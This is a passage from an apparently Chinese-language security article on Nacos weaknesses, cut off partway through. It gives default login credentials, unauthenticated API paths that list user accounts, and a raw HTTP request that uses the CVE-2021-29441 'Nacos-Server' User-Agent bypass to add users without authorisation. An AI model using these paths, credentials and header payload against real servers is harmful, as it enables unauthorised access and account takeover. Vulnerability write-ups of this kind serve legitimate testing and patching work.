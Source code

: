 /nacos/v1/console/server/state  
  
![图片](https://mmbiz.qpic.cn/mmbiz_jpg/iar31WKQlTTrjpEujD1ZWxGGw7qZEafOia8pwbqnav29icGdAlvpPTKmCfQibr3mZWCL5tLXA3zTjRzsgBNafcBISw/640?wx_fmt=jpeg&from=appmsg&tp=wxpic&wxfrom=5&wx_lazy=1 "")  
### 2. 默认口令  
  
访问 http://ip:8848/nacos/#/login进入登陆页面  
  
![图片](https://mmbiz.qpic.cn/mmbiz_jpg/iar31WKQlTTrjpEujD1ZWxGGw7qZEafOia0O0vrGkdtah21avqbuDeJxRXzksb5Yf06VyWOwsHVDIEdpdrEoJkKA/640?wx_fmt=jpeg&from=appmsg&tp=wxpic&wxfrom=5&wx_lazy=1 "")  
  
默认口令为： nacos/nacos  
### 3.默认未开启鉴权-未授权查看用户信息  
  
由于系统默认未开启鉴权 导致未授权访问  
  
nacos.core.auth.enabled=false  
#### 漏洞复现  
  
测试版本：nacos1.4.0  
  
直接访问如下路径，未授权查看用户信息  
  
/nacos/v1/auth/users?pageNo=1&pageSize=9  
  
![图片](https://mmbiz.qpic.cn/mmbiz_jpg/iar31WKQlTTrjpEujD1ZWxGGw7qZEafOiaqmJd48lMJgibATGuiaSqxlwzQ00Pnt2YaapUxpUHaCicmKMKhzXJic7qDA/640?wx_fmt=jpeg&from=appmsg&tp=wxpic&wxfrom=5&wx_lazy=1 "")  
### 4. User-Agent权限绕过（CVE-2021-29441）  
  
漏洞描述: 该漏洞发生在nacos在进行认证授权操作时，会判断请求的user-agent是否为”Nacos-Server”，如果是的话则不进行任何认证。开发者原意是用来处理一些服务端对服务端的请求。但是由于配置的过于简单，并且将协商好的user-agent设置为Nacos-Server，直接硬编码在了代码里，导致了漏洞的出现。  
  
  
版本: <=Nacos 1.4.1 配置为使用身份验证（nacos.core.auth.enabled=true）  
  
直接访问下面的目录，可以未授权查看到账号密码  
  
/nacos/v1/auth/users?pageNo=1&pageSize=100 //可查看到用户列表  
  
可以看下里面的账号密码，很多情况下账号密码都是这个暴露出来的username，和password信息  
  
![图片](https://mmbiz.qpic.cn/mmbiz_jpg/iar31WKQlTTrjpEujD1ZWxGGw7qZEafOiaA9yJbOx2mwfib11UT7ZPsJbRxlsx41qOm155icZibHN6yVCfgKLI2VB2Q/640?wx_fmt=jpeg&from=appmsg&tp=wxpic&wxfrom=5&wx_lazy=1 "")  
  
未授权添加用户  
  
payload:  
  
POST /nacos/v1/auth/users HTTP/1.1  
  
Host:   
  
User-Agent: Nacos-Server  
  
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8  
  
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2  
  
Accept-Encoding: gzip, deflate, br  
  
Connection: keep-alive  
  